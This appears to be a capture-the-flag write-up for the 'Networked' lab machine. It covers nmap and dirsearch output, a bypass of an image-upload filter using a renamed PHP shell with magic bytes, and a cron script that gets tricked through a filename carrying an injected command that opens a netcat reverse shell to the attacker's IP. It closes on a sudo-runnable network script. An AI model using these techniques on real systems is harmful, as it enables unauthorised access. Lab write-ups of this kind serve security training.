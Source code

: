 # Networked

## NMAP

```Console

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16

```

## Web

* Dirsearch fuzz results

```text
[12:03:00] 301 -  235B  - /backup  ->  http://10.129.61.53/backup/          
[12:03:00] 200 -  885B  - /backup/
[12:03:03] 403 -  210B  - /cgi-bin/
[12:03:34] 200 -    1KB - /photos.php
[12:03:53] 200 -  169B  - /upload.php
[12:03:54] 301 -  236B  - /uploads  ->  http://10.129.61.53/uploads/        
[12:03:54] 200 -    2B  - /uploads/  
```

* backup tar gives out
	* lib.php
	* index.php
	* gallery.php
	* upload.php
* where upload.php contains

```php
list ($foo,$ext) = getnameUpload($myFile["name"]);
$validext = array('.jpg', '.png', '.gif', '.jpeg');
$valid = false;
foreach ($validext as $vext) {
if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
$valid = true;
}
}
```

### magic bytes

* by renaming our php shell to php.png and appending the magic bytes via `hexeditor` , we can bypass the mandated file upload restrictions according to the upload.php mentioned above

## User

* there's a cronjob running attack_check.php every 3 mins

```php

<?php       
require '/var/www/html/lib.php';   
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";
                                                                        
$files = array();                                                       
$files = preg_grep('/^([^.])/', scandir($path));                        
                                                                        
foreach ($files as $key => $value) {                                    
        $msg='';                                                        
  if ($value == 'index.html') {                                         
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}
?>

```

* append the following over `/var/www/html/uploads`

```bash
touch '; nc -c bash 10.10.14.95 9001 &'
```

# System User

	* sudo -l gives  `/usr/local/sbin/changename.sh`
* which contains

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```